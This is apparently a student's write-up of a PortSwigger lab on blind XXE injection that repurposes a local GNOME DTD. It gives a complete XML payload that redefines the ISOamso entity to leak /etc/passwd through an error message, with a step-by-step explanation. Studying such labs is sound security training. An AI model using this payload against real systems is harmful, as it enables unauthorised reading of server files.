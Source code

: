 
### Exploiting XXE to retrieve data by repurposing a local DTD : EXPERT

---


> Hint:
`Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.`


> Viewing any item and then pressing on `check stock` while having BURPSUITE PROXY HTTP history on.

![](check-stock.png)

> Viewing the `POST` request sent via HTTP history.

![](lab7-1.png)

> Similar to [[Portswigger/XXE Injection/Lab 6|Lab 6]], it is a blind injection, and we can only use parameterized entities.
> To try and invoke error messages, we try to find a local DTD and redefine an element to cause the error message without using an external entity.
> Given by the hint, the file with the DTD: `/usr/share/yelp/dtd/docbookx.dtd` with the entity:`ISOamso`.

> We can create the payload:
```XML
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
<!ENTITY % ISOamso ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```

1. Given an external DTD at location `/usr/share/yelp/dtd/docbookx.dtd` that has an entity called `ISOamso`.
2. We redefine the `ISOamso` to contain the error message payload as in [[Portswigger/XXE Injection/Lab 6|Lab 6]].
	1.  Create an XML parameter entity called `file` that contains the contents of the file `/etc/passwd`.
	2.  Create an XML parameter entity called `eval`. In is another parameter entity called `error`.
	3. `error` intentionally loads a false file name, and passes the entity `file` as the file name using `%file;`.
	4. `file` contains the contents of the `/etc/passwd` file, so the name of the file will be the contents of the file.
	5. Finally, use the `eval` entity which declares the `error` entity and runs it. We then use the `error` entity to view its response.
3. We use the Web Encoding for special characters in recursive definitions of entities.
4. Finally, we call the `local_dtd` entity which triggers the error message.

> Adding this payload into the `POST` request and sending it gives the error message.

![](lab7-2.png)

---
